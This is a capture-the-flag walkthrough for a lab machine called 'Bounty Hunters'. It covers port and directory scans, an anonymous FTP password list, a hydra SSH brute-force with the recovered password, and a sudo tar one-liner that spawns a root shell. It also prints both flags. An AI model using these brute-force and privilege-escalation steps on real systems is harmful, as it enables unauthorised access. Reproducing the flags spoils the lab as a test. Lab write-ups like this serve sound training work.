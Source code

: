 <head>
<h1><center>Bounty Hunters</center></h1>
</head>

## Description

<b>MISSING</b>

<br>

## Enumeration

We are provided with the IP of the machine.

### Port Scan

&nbsp;&nbsp;Basic port scan shows that there are three open ports on the machine.

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Port 80

The website contains a picture and some quotes by some poeple.
<img src="./images/web.png">

Directory Scan showed nothing useful..


```
/.hta                 (Status: 403) [Size: 277]

/.htpasswd            (Status: 403) [Size: 277]

/.htaccess            (Status: 403) [Size: 277]

/images               (Status: 301) [Size: 313] [--> http://10.10.11.233/images/]

/index.html           (Status: 200) [Size: 969]                                  

/server-status        (Status: 403) [Size: 277]
```


#### Port 21

Here we have anonymous login to FTP 
It has two files 
- locks.txt
- task.txt

locks.txt

```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
 
task.txt

```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

<br>

## SSH

I realized that `locks.txt` possibly contain the passwords of some user.
I quickly listed out all the possible usernames that I have seen on the website and of course from task.txt

users 

```
spike
jet
ed
faye
lin
```

I then used [hydra](https://www.kali.org/tools/hydra/) to bruteforce the combination.

```
username : lin
passwd   : RedDr4gonSynd1cat3
```

After logging in we find user flag in lin's home directory.

```
THM{CR1M3_SyNd1C4T3}
```

<br>

##  Privilege Escalation

Basic enumeration `sudo -l` showed that user lin can run `/bin/tar` as root..🤩

Heading over to GTFObins gave this command 

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

This gives us the root shell..💀

root flag

```
THM{80UN7Y_h4cK3r}
```
